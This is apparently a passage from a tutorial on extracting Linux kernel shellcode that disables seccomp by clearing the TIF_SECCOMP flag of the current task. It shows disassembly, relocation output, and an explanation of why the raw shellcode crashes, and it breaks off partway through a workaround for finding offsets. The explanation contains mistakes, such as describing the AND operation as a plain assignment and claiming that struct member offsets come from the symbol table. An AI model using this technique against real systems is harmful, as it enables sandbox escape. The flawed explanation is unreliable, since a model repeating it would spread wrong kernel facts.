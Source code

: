 ```asm
   c:   65 48 8b 04 25 00 00    mov    rax,QWORD PTR gs:0x0
  13:   00 00 
  15:   48 81 20 ff fe ff ff    and    QWORD PTR [rax],0xfffffffffffffeff
  1c:   31 c0                   xor    eax,eax
  1e:   c3                      ret    
```

When you will try to run this shellcode your process will get SEGFAULT. it's because the instruction
`mov    rax,QWORD PTR gs:0x0` is expected to be resolved at load time

When the kernel loads a module containing the line of code `current->thread_info.flags = ~(1 << TIF_SECCOMP)`, it uses the symbol table and relocation information contained in the module's object file to map the symbolic names and offsets used in the code to their corresponding addresses in the kernel's address space.

For example, the symbol `current` is used to access a global variable in the kernel's address space. The symbol table will contain an entry for `current` that specifies the offset of the variable within the module's address space. When the kernel loads the module, it will use this information to determine the actual address of the `current` variable in the kernel's address space and update the code accordingly.

The `thread_info` and `flags` members of the `current` structure are accessed using offsets, which are also contained in the symbol table. When the kernel loads the module, it will use these offsets to determine the actual addresses of these members within the kernel's address space and update the code accordingly.

Finally, the `TIF_SECCOMP` constant is used as an argument to the `<<` operator, which shifts the value `1` to the left by the number of bits specified by `TIF_SECCOMP`. The result is then negated using the `~` operator, and the resulting value is stored in the `flags` member of the `thread_info` structure.

### Workaround

So, how can i get the offset the idea is simple you have to debug the running module to find the offsets. But wait how can i know which instructions are going to be resolved at load time you can use the -r flag in objdump when you will use the objdump with -r flag on the compiled module given in example your out will get output like this

```asm


Disassembly of section .text.unlikely:

0000000000000000 <init_module>:
   0:   48 c7 c7 00 00 00 00    mov    rdi,0x0
                        3: R_X86_64_32S .rodata.str1.1
   7:   e8 00 00 00 00          call   c <init_module+0xc>
                        8: R_X86_64_PLT32       printk-0x4
   c:   65 48 8b 04 25 00 00    mov    rax,QWORD PTR gs:0x0
  13:   00 00 
                        11: R_X86_64_32S        current_task
  15:   48 81 20 ff fe ff ff    and    QWORD PTR [rax],0xfffffffffffffeff
  1c:   31 c0                   xor    eax,eax
  1e:   c3                      ret    

000000000000001f <cleanup_module>:
  1f:   55                      push   rbp
  20:   48 c7 c7 00 00 00 00    mov    rdi,0x0
                        23: R_X86_64_32S        .rodata.str1.1+0x16
  27:   48 bd 70 77 6e 2e 63    movabs rbp,0x6c6c6f632e6e7770
  2e:   6f 6c 6c 
  31:   53                      push   rbx
  32:   bb 00 01 00 00          mov    ebx,0x100
  37:   e8 00 00 00 00          call   3c <cleanup_module+0x1d>
                        38: R_X86_64_PLT32      printk-0x4
```